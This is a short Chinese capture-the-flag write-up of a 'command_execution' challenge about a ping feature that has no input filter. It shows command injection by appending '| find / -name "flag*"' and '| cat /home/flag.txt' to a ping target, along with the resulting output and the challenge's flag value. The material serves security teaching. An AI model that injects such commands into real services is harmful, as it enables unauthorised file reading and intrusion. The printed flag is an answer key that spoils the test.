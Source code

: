 ## command_execution

小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。

----

### 命令拼接
![img.png](imgs/常见命令拼接.png)

```shell
ping -c 3 www.baidu.com | find / -name "flag*"

/home/flag.txt
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
```

```shell
ping -c 3 www.baidu.com | cat /home/flag.txt

cyberpeace{8373655cc6766371e27c8c1a26fab57c}
```
